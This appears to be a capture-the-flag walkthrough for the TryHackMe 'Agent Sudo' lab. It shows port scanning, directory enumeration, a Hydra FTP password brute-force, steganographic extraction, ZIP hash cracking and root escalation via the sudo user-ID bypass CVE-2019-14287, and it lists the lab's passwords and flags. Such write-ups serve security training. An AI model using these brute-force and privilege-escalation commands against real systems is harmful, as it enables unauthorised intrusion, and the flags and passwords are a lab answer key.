 ```yaml
---
title: "TryHackMe - Agent Sudo CTF Walkthrough"
date: 2024-12-14
categories: [TryHackMe]
tags: [CTF, FTP, Steganography, Privilege Escalation]
image: assets/images/thm-cover/agent-sudo_Cover.jpg
---
```


# TryHackMe - Agent Sudo CTF Walkthrough

---

## Step 1: Network Scanning

Use Nmap to scan the target and identify open ports and services.

```bash
sleep33@THM:~$ nmap -v -sCV -oN nmap.txt 10.10.89.193
```

### Results:
- **Open Ports**:
  - Port 21: FTP (vsftpd 3.0.3)
  - Port 22: SSH (OpenSSH 7.6p1)
  - Port 80: HTTP (Apache 2.4.29)
- **Interesting HTTP Title**: `Announcement`
- **Total Open Ports**: `3`

---

## Step 2: Directory Enumeration

Enumerate directories using Gobuster.

```bash
sleep33@THM:~$ gobuster dir -u http://10.10.89.193 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,js,txt,php,db,json,log,bak,old
```

### Results:
- `/index.php` (Status: 200)
- `.html` and `.php` (Status: 403)
- Secret page accessible via modifying the `User-Agent` header.

---

## Step 3: Investigating FTP Service

Attempt to brute-force FTP credentials using Hydra.

```bash
sleep33@THM:~$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.89.193 ftp
```

### Credentials Found:
- **Username:** `chris`
- **Password:** `crystal`

---

## Step 4: Exploring FTP

Log in to the FTP server and list its contents.

```bash
ftp> ls -la
```

### Files Found:
- `To_agentJ.txt`
- `cute-alien.jpg`
- `cutie.png`

Download the files for further analysis.

---

## Step 5: Analyzing `cutie.png`

Use Binwalk to inspect the file for hidden data.

```bash
sleep33@THM:~$ binwalk cutie.png
```

### Findings:
- Encrypted ZIP archive located at offset `0x8702`.

Extract the ZIP file.

```bash
sleep33@THM:~$ binwalk cutie.png -e
```

---

## Step 6: Cracking the ZIP File

Use `zip2john` to extract the hash and `john` to crack the password.

```bash
sleep33@THM:~$ zip2john 8702.zip > zip_hash.txt
sleep33@THM:~$ john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash.txt
```

### Password Found:
- **Password:** `alien`

Extract the contents of the ZIP file. Inside, you find a message: `QXJlYTUx` which decodes to `Area51`.

---

## Step 7: Analyzing `cute-alien.jpg`

Use Steghide to extract hidden data from the image.

```bash
sleep33@THM:~$ steghide extract -sf cute-alien.jpg
```

### Results:
- **Passphrase:** `Area51`
- **Extracted File:** `message.txt`

Contents of `message.txt`:
```
Hi James,

Glad you find this message. Your login password is hackerrules!

Your buddy,
Chris
```

---

## Step 8: SSH Access

Log in via SSH using the provided credentials.

```bash
sleep33@THM:~$ ssh james@10.10.89.193
```

### Credentials:
- **Username:** `james`
- **Password:** `hackerrules`

Once logged in, locate the `user_flag.txt`.

```bash
james@agent-sudo:~$ cat user_flag.txt
```

**User Flag:**
```
b03d975e8c92a7c04146cfa7a5a313c7
```

---

## Step 9: Privilege Escalation

Check `sudo` permissions.

```bash
james@agent-sudo:~$ sudo -l
```

### Results:
- `(ALL, !root) /bin/bash`

Exploit the misconfigured `sudo` permissions to gain root access.

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
# whoami
root
```

Escalation exploit: **CVE-2019-14287**

---

## Step 10: Retrieving the Root Flag

Locate and read the `root_flag.txt`.

```bash
root@agent-sudo:~$ cat /root/root_flag.txt
```

**Root Flag:**
```
b53a02f55b57d4439e3341834d70c062
```

---

## Step 11: Identifying Agent R

Agent R is referenced multiple times throughout the challenge. Their identity is clarified in `message.txt`.

**Agent R:** `Roswell alien autopsy`

---

## Summary

In this walkthrough, we enumerated services, brute-forced FTP credentials, used steganography to uncover hidden messages, escalated privileges using misconfigured `sudo` permissions, and retrieved both the user and root flags.

### Key Information:
- **FTP Password:** `crystal`
- **ZIP Password:** `alien`
- **Steg Password:** `Area51`
- **SSH Password:** `hackerrules`
- **Agent Name:** `Chris`
- **Other Agent Full Name:** `James`
- **Incident:** `Roswell alien autopsy`
- **User Flag:** `b03d975e8c92a7c04146cfa7a5a313c7`
- **Root Flag:** `b53a02f55b57d4439e3341834d70c062`
